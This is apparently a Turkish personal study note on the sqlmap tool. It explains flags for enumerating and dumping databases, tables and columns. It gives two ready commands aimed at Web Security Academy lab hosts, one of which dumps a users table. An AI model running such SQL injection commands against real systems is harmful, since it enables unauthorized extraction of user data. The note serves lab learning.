 

    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

bu şekilde hangi şeyi enumerate etmek istediğine karar verebilirsin 

--dump kullanarak belirtilen tablonun sütunun hepsini getirmesini sağlayabilirsin 
--tecnique ile hangi tekniği kullanacağını belirle  'DEUSTQ'
-D database ismini belirt
-T table ismini belirtmiş
```bash
python sqlmap.py -u "https://0a4300e404ee84788730f4f600c70072.web-security-academy.net/filter?category=Gifts" --technique=U -D public -T users_ybkirg  --dump -v 3
```


### Cookie kullanmak

--level >= 2 olması gerekir cookielerin denenmesi için 
--cookie ile cookieleri belirtebilirsin
```bash
python sqlmap.py -u "https://0a2d003a03431aac84a428cc00540064.web-security-academy.net" --cookie "TrackingId=asdasd" --dbs --level 2
```



[[TOOLs]]
[[SQLİ]]